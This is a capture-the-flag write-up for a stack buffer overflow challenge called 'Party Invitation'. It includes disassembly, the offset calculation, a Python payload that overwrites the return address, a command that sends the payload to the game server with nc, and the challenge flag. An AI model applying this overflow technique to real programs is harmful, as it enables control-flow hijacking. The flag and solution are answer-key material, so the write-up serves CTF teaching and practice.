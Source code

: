 # Party Invitation

## Question Text

There's an awesome that's going to go down next week. 

Created by Noans

## Distribution
AwesomeParty `SHA1: 08797f1fd4473e8d09d64efda3ca429ea0d9afc0`

## Solution
1. Do an objdump on `AwesomeParty` with the command `objdump -d AwesomeParty`.
2. The following parts of from the `objdump` should be studied:  
```
0000000000400586 <check>:
400586:	55                   	push   %rbp
400587:	48 89 e5             	mov    %rsp,%rbp
40058a:	48 83 ec 20          	sub    $0x20,%rsp
40058e:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
400592:	48 89 c6             	mov    %rax,%rsi
400595:	bf 78 06 40 00       	mov    $0x400678,%edi
40059a:	b8 00 00 00 00       	mov    $0x0,%eax
40059f:	e8 cc fe ff ff       	callq  400470 <__isoc99_scanf@plt>
4005a4:	bf 7b 06 40 00       	mov    $0x40067b,%edi
4005a9:	e8 a2 fe ff ff       	callq  400450 <puts@plt>
4005ae:	90                   	nop
4005af:	c9                   	leaveq
4005b0:	c3                   	retq
```
3. The third line tells us 32 bytes is reserved for a variable.
4. Derive that one needs to override 32 bytes + rbp (8 bytes) to overwrite return address.
5. Also derive address of `awesome` function is `4005b1`.

Final command to exploit local program assuming machine uses little-endian:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | ./AwesomeParty`

In order to get the flag, players have to pipe the output to the game server:  
`python -c 'print "a" * 40 + "\xb1\x05\x40"' | nc play.spgame.site 50000`

## Flag
`GCTF{4W3S0M3_L177L3_P4R7Y}`

## Recommended Reads
* https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
* https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64